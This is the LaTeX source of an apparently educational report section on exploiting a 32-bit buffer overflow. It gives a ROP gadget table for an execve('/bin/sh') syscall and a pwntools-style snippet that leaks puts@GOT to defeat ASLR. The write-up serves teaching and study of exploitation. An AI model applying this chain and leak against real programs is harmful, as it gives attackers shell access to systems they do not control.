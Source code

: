 \documentclass[10pt,twocolumn,letterpaper]{article}
\newcommand{\code}[1]{\texttt{\small #1}}
\begin{document}
\begin{table}[t]
  \centering
  \caption{The four-gadget \code{execve} chain. Each \code{ret} drives the next gadget; the register state at the bottom describes the syscall.}
  \label{tab:gadgets}
  \small
  \begin{tabularx}{\textwidth}{@{}c l l X@{}}
    \toprule
    \textbf{\#} & \textbf{Gadget} & \textbf{Loads} & \textbf{Meaning}\\
    \midrule
    1 & \code{pop ecx ; pop edx ; ret} & \code{ecx=0, edx=0} & \code{argv} and \code{envp} are NULL\\
    2 & \code{pop ebx ; ret} & \code{ebx=\&"/bin/sh"} & path to execute (string inside libc)\\
    3 & \code{pop eax ; ret} & \code{eax=0x0b} & syscall number for \code{execve}\\
    4 & \code{int 0x80} & --- & hand control to the kernel $\rightarrow$ shell\\
    \bottomrule
  \end{tabularx}
\end{table}

A simpler return-to-libc variant (one jump into \code{system("/bin/sh")}) is
included for comparison, and \code{exploit\_hardcoded.py} freezes the gadget
addresses to show the next problem directly: with ASLR enabled those fixed
addresses no longer point into libc and the exploit crashes.

\subsection{Defeating ASLR with an Information Leak}
Address Space Layout Randomization loads libc at a different base on every run,
so the fixed gadget and function addresses used above stop being valid. ASLR
randomizes only the base, however; the \emph{offsets} of symbols within libc are
fixed, so learning one real runtime address locates the entire library. Because
PIE is off, the program's own Procedure Linkage Table (PLT) and Global Offset
Table (GOT) sit at fixed addresses we can use as a starting point. The bypass is
two stages. First, an overflow calls \code{puts(puts@GOT)}: the GOT entry holds
the real runtime address of \code{puts()}, so the program prints it for us, then
returns to \code{main} so a second overflow is possible. Subtracting the known
offset of \code{puts} within libc yields the base. The second overflow sends the
execve chain with every address resolved against that base.
\begin{lstlisting}[style=py]
# 1) leak: print the real puts() address
pay = b'A'*84 + p32(puts_plt) + p32(main)
pay +=         p32(puts_got)   # arg = &puts@GOT
leak = u32(p.recvline()[:4])
libc.address = leak - libc.sym['puts']
# 2) resend the execve chain at real addresses
\end{lstlisting}
\noindent Reading the base from \code{/proc} would only work locally, so the
exploit recovers it from program output instead, which is what a remote attacker
would do. It succeeds on repeated runs, each with a different base.
\end{document}
